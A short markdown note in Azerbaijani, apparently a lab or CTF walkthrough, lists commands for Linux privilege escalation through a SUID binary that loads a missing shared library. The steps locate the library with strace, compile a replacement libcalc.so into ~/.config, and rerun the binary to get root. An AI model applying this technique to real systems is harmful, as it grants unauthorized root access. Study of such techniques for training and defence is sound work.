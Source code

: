 ## eger biz suid so suid icazesi gormusukse
    /usr/local/bin/suid-so
## bu kommandi verdikden sonra 
    strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
## daha sonra biz home userde .config qovluqu yaradiriq
    mkdir /home/user/.config
    cd .config
## daha sonraa bu emrini runlayiriq
    gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
## ve ardiyca 
    /usr/local/bin/suid-so
## ve artiq rootsan

